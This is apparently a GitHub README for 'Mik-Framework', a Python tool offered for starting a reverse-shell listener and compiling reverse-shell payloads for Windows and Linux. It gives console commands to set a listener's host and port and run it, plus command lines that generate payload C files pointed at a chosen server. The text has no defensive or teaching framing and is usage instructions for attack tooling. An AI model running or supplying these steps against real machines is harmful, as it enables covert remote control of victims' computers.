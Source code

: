 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```
~/Mik-Framework $ python3 mikconsole.py
```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```
   mik> use revshell
   ```

3.  Configure the host and port:
```
mik-revshell> set host 0.0.0.0
mik-revshell> set port 4545
```

4. Run the server:
   ```
   mik-revshell> run
   ```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```
python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw
```

### Linux

To compile a payload for Linux, use the following command:

```
python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c
```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Screenshots
![Linux](https://raw.githubusercontent.com/mikelkarma/Mik-Framework/main/screenshots/Screenshot_2024-03-10-23-02-26-120_com.termux.jpg)
![Windows](https://raw.githubusercontent.com/mikelkarma/Mik-Framework/main/screenshots/Screenshot_2024-03-10-23-03-42-664_com.termux~2.jpg)
## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
